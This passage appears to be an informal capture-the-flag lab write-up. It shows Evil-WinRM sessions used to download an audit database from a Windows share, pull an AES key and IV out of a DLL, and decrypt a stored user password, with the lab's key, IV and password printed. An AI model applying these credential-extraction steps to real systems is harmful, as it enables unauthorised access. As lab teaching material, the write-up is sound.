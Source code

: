 * i tried to privilege escalation to the administrator but a failed so i think that i should go the third user .
* after some enumeration i found DB file which contain the creds of the third user.
* go to 'C:\Shares\Audit\DB' and i downloaded  the db file and extracted the creds from it.

```ruby
*Evil-WinRM* PS C:\Shares\Audit\DB> download Audit.db
Info: Downloading C:\Shares\Audit\DB\Audit.db to Audit.db
                                                             
Info: Download successful!
```
* let's open the file in online DB viewer using this website . [SQL Online IDE](https://sqliteonline.com/).

* select open file then >> type 'SELECT * FROM LDAP;' 

![](https://i.ibb.co/2FZn7xy/ark.png)

* pingo! now we have the password of the third user , it's encoded in AES encryption  , let's decode it.

* now after some enumeration .

```ruby
*Evil-WinRM* PS C:\> cd Shares/Audit
*Evil-WinRM* PS C:\Shares\Audit> ls


    Directory: C:\Shares\Audit


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll

```
* i downloaded the file CascCrypto.dll and open it with ida and i found the 'IV' and the 'Secret Key'
* secret-key = "c4scadek3y654321"
* initialization vector = "1tdyjCbY1Ix49842"

![](https://i.ibb.co/5FcSKxN/iv.jpg)

* now open this [site](https://www.devglan.com/online-tools/aes-encryption-decryption)

![](https://i.ibb.co/9hRqtQG/decoder.png)

* Tha Password is : w3lc0meFr31nd.
